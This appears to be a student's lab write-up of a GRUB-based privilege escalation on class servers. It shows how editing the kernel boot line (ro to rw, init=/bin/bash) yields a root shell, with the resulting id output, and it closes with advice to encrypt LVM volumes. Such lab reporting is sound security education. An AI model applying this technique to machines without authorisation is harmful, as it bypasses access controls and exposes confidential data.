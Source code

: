 # Fastest Privesc on Grub 
## Context

During Networking Security class, i had a lab with seven servers on a Proxmox created by our teacher without a root user.

After reporting all privilege escalations with `sudo` commands, my teacher decided to disable all the `sudo` commands until he could find a solution.

Unfortunately, it was not enough.

## Privesc

Grub is a boot loader that allows you to choose which operating system to boot.

It was installed on the servers, and I could edit startup scripts :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ]; then insmod xzio; insmod lzopio; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

In our case, the LVM was not encrypted, so we could access files by spawning a root shell :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Just change `ro` (read_only) to `rw` (read-write) and add init=/bin/bash at the end of the line, then reboot the server.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

We can now access the root user.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Please encrypt your LVMs. Imagine it was not a lab, but an enterprise laptop with confidential documents.
When you encrypt LVM you can't read files when changing `ro` to `rw` in the grub file, passphrase is required.
